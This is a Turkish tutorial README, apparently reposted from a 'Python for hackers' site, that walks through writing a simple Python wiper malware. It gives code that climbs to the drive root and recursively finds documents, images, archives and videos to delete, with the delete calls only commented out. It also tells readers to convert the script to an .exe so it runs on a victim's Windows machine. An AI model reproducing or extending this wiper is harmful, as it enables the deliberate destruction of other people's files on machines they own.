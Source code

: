 🕊 Bu döküman [**@KekikAkademi**](https://t.me/KekikAkademi "Telegram: @KekikAkademi") için oluşturulmuştur. ✌🏼
________________________________
# Py4H Simple Wiper Malware v1
![Py Malware](https://raw.githubusercontent.com/KekikAkademi/KekikPython/master/4-Py4H_Simple_Wiper_Malware_v1/images/py-malware.jpg)

Bu yazımızda Python dilinin ne kadar kolay ve güçlü olduğunun bir kanıtını daha göreceğiz. Basit de olsa küçük bir malware programı kodlayacağız.

### **Saldırı Senaryosu:**
Kurban, Python programımızı çalıştırdığında sistemdeki tüm docx, doc, txt, xls, pdf dosyalarını imha etmek.

### **Algoritma:**
-   Başla
   -   Kök dizine in
   -   Belirtilen dosyaları bul ve sil
   -   Bitti

### **Kod Paylaşımı:**
Aşağıdaki kodlar ile kök dizine “/” indik. Bu dizin C:/ de olabilir D:/ de olabilir yani Python programımızın hangi sürücüde çalıştırılacağına bağlıdır.

	suanki_dizin = os.getcwd() #bulundugu dizin
	a = suanki_dizin.split("/")
	sayi = len(a)-1
	for i in range(0,sayi):
		os.chdir(os.pardir)

Daha sonra [benim](http://python4hackers.com/author/oguzhan-arslan "Oğuzhan Arslan") bulup geliştirdiğim dizin taramasında kullandığım bir algoritma ile dosyalarımızı bulduk ve sildik.

	girilen_dizinler = []
	 
	def BulunanDizin(gelendizin):
		os.chdir(gelendizin)
		print("girilen dizin >> "+ gelendizin)
		girilen_dizinler.append(gelendizin)
		KontrolEt()
		os.chdir(os.pardir)
	 
	def KontrolEt():
		dosyalr = os.listdir(os.getcwd())
		for i in dosyalr:
			try:
				if re.match(".*txt",i):
					print(i) #os.remove(i)
				elif re.match(".*pdf",i):
					print(i) #os.remove(i)
				elif re.match(".*docx",i):
					print(i) #os.remove(i)
				elif re.match(".*doc",i):
					print(i) #os.remove(i)
				elif re.match(".*xls",i):
					print(i) #os.remove(i)
				elif re.match(".*jpg",i):
					print(i) #os.remove(i)
				elif re.match(".*rar",i):
					print(i) #os.remove(i)
				elif re.match(".*zip",i):
					print(i) #os.remove(i)
				elif re.match(".*mp4",i):
					print(i) #os.remove(i)
				elif os.path.isdir(i):
					if girilen_dizinler.count(i) == 0:
						BulunanDizin(i)
					else:
						pass
				else:
					pass
			except:
				pass

[Kodların Tamamına Burdan Ulaşabilirsiniz!](https://github.com/KekikAkademi/KekikPython/blob/master/4-Py4H_Simple_Wiper_Malware_v1/Py4H_Simple_Wiper_Malware_v1.py)

### **Notlar:**
   -   Tabi ki hedefteki kişinin bilgisayarında Python yüklü olmayabilir bu yüzden programımızı her Windows işletim sisteminde çalışabilmesi için pyinstaller, py2exe ya da cx_freeze modüllerinden birini kullanarak .exe dosyası haline getirmelisiniz.

   -   Şuan çok basit bir şekilde küçük bir malware yazdık, ilerleyen süreçlerde daha komplike hale getirebilirsiniz..

> Bir sonraki yazımızda görüşmek üzere.

[Kaynak](http://python4hackers.com/python-malware/py4h-simple-wiper-malware-v1.html "Saygı ve Özlemle...")
________________________________

📃 **Yandex.Disk Bünyemizde 900GB veri olmuştur.**

_Paylaşılan Kursların Tümünü_ [**@KekikKahve**](https://t.me/KekikKahve) _Grubu notlarından Çağırabilirsiniz.._

🕊️ Bize **oy verip** _paylaşarak_ destek olmaya ne dersin? ✌🏼
#
> Bu readme sayfası oluşturulurken [prose.io](http://prose.io/ "prose.io") ve [stackedit.io](https://stackedit.io/app "stackedit.io") araçlarından yardım alınmıştır..
> Emojiler için [webfx](https://www.webfx.com/tools/emoji-cheat-sheet/ "Emoji Cheat Sheet") sayfası kullanılmıştır.
